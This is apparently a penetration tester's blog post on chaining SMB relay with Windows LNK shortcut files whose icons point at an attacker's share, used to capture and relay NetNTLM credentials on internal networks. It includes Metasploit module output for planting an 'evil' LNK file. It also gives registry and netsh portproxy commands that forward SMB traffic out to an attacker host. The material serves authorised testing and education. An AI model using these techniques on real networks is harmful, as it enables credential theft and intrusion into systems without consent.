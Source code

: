 = MS08_068 + MS10_046 = FUN UNTIL 2018
:hp-tags: lnk, metasploit, smbrelay

****TL;DR:**** SMB Relay + LNK UNC icons = internal pentest pwnage

I need to touch on the highlights of two vulnerabilities before we talk about the fun stuff, but I highly encourage you to read the references at the bottom of this post and understand the vulnerabilities after you are done with my little trick, as you might find one of your own.

**MS08_068:** [http://www.cvedetails.com/cve/CVE-2008-4037/](http://www.cvedetails.com/cve/CVE-2008-4037/)

In 2008, Microsoft released MS08_068 which patched the "SMB Relay" attack. To boil this down, an attacker gets a victim to attempt to authenticate to an attacker controlled box. The attack delays its responses to the victim and replays the important parts of the authentication that the victim sent back at the victim. You can find out a lot more about this vulnerability here: [https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay](https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay)

One thing to take away from that post is that the patch stops Attacker <=> Victim, but does not / cannot fix Victim <=> Attacker <=> **Victim2** (use authentication from Victim to replay to Victim2)

**MS10_046:** [http://www.cvedetails.com/cve/CVE-2010-2568/](http://www.cvedetails.com/cve/CVE-2010-2568/)

In 2010, Microsoft released MS10_046 which patched the Stuxnet LNK vulnerability where a malicious DLL could be loaded (locally or remotely over WebDAV) using the path of the shortcut's icon reference. LNK files are Windows shortcut files that allow the icons of the files to be changed much more dynamically than any other file type (Right click a shortcut, go to Properties, and just simply click the 'Change Icon' button). I could certainly be wrong here, but I believe all Microsoft patched was the ability to use this feature to load the DLLs via a certain Control Panel object. Which leaves the ability to load shortcut (LNK) icons from wherever we wish. ;-)

**The Setup:**

If you are on an internal penetration test and either exploit a machine or find an open share, you can create an LNK file with an icon that points at a nonexistent share on your attacking machine's IP and use SMB_Relay to replay those credentials to a system in which we've identified by one means or another as an 'important' host to get on.

Attacker uploads malicious LNK file to network share on **FILE SHARE**

Victim views it on **WORKSTATION** that initiates an connection to **ATTACKER**

Attacker relays those authentication attempts to **FILE SHARE**, gaining code execution if 'Victim' is an admin on **FILE SHARE**

If not, then NetNTLM are still visible in the logs and can be attempted to crack, or just wait for more people to view the LNK file on the public share, and hope that an admin comes by at some point.

Your mileage will vary based on where you put the LNK file.

**The Video:**

<center><iframe align=center width="560" height="315" src="//www.youtube.com/embed/FxekUPY5ojU" frameborder="0" allowfullscreen></iframe></center>

I have created a post module to automate the process of creating and uploading the LNK file (so you don't have to have a Windows box lying around). Here it is in action:

```
Module options (post/windows/escalate/droplnk):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ICONFILENAME  icon.png         yes       File name on LHOST's share
   LHOST         192.168.2.16     yes       Host listening for incoming SMB/WebDAV traffic
   LNKFILENAME   Words.lnk        yes       Shortcut's filename
   SESSION       1                yes       The session to run this module on.
   SHARENAME     share1           yes       Share name on LHOST

2012-02-11 07:17:19 +0000 2 1 post(droplnk) > run

[*] Creating evil LNK
[*] Done. Writing to disk - C:\DocuMe~1\Administrator\Words.lnk
[*] Done. Wait for evil to happen..
[*] Post module execution completed
```

You can find the code here:

[https://github.com/mubix/Not-In-Pentesting-Class/blob/master/modules/post/mubix/droplnk.rb](https://github.com/mubix/Not-In-Pentesting-Class/blob/master/modules/post/mubix/droplnk.rb)

**Going forward:**

Obviously this isn't so effective remotely out of the box and there currently isn't a SMB_Relay for WebDAV (although I'm guessing that would work). However I was able to construct a crude way getting smb_relaying working using some pretty loud system changes to an exploited host:

* **Step 1**: Disable SMB on Port 445 (it will still operate on 139 as it is a failover), this setting requires a reboot to take effect and can be done using the following command:    
  * `reg add HKLM\System\CurrentControlSet\Services\NetBTParameters /v SMBDeviceEnabled /t REG_DWORD /d 0`
* **Step 2**: Port forward the traffic out to your remote attacker host over a port that is allowed out, used 80:
  * `netsh int portproxy v4tov4 listenport=445 connectaddress=the.bad.guy.com connectport=80`
* **Step 3**: Set up SMB_Relay listening on that port on your attacker with a route in meterpreter to send all relayed authentication through your meterpreter session into and at the targeted host. 

These steps can get you noticed in almost every way, so it's not recommended, I just did it as a PoC. I mean how cool is it to remotely exploit SMB vulns ;-)

The other thing is, administrators are becoming much more rare as years move along and people use lower priv users for their daily tasks, so there are currently feature requests in to the Metasploit project to make it so when you get SMB_Relay correctly forwarding good credentials, even if they aren't admin and you cannot get code execution it would be nice to be able to go through the files that person has access to on the targeted system / file share. A final pipe dream of this post is to have a multi-threaded smb_relay that 2, 3 or even 10 servers can be targeted with the relayed authentication.

just saying'…. /me nudges the Metasploit devs…

### References:

#### SMB_Relay References:

* "Initial?" release in 2003 - [http://www.xfocus.net/articles/200305/smbrelay.html](http://www.xfocus.net/articles/200305/smbrelay.html)
* Microsoft advisory - [http://technet.microsoft.com/en-us/security/bulletin/ms08-068](http://technet.microsoft.com/en-us/security/bulletin/ms08-068)
* Metasploit blog post - [https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay](https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay)
* Metasploit module - [http://www.metasploit.com/modules/exploit/windows/smb/smb_relay](http://www.metasploit.com/modules/exploit/windows/smb/smb_relay)

#### LNK DLL Loader References:

* Microsoft advisory - [http://technet.microsoft.com/en-us/security/advisory/2286198](http://technet.microsoft.com/en-us/security/advisory/2286198)
* Metasploit blog post - [https://community.rapid7.com/community/infosec/blog/2010/08/05/ms10-046-a-rude-awakening](https://community.rapid7.com/community/infosec/blog/2010/08/05/ms10-046-a-rude-awakening)
* Some of HDM's research - [https://community.rapid7.com/community/solutions/metasploit/blog/2010/08/22/exploiting-dll-hijacking-flaws](https://community.rapid7.com/community/solutions/metasploit/blog/2010/08/22/exploiting-dll-hijacking-flaws)
* ISS's advisory - [http://blogs.iss.net/archive/remotedllpreloadingv.html](http://blogs.iss.net/archive/remotedllpreloadingv.html)
* Metasploit module - [http://www.metasploit.com/modules/exploit/windows/browser/ms10_046_shortcut_icon_dllloader](http://www.metasploit.com/modules/exploit/windows/browser/ms10_046_shortcut_icon_dllloader)
* Video of the module in action - [http://www.commonexploits.com/?p=151](http://www.commonexploits.com/?p=151)
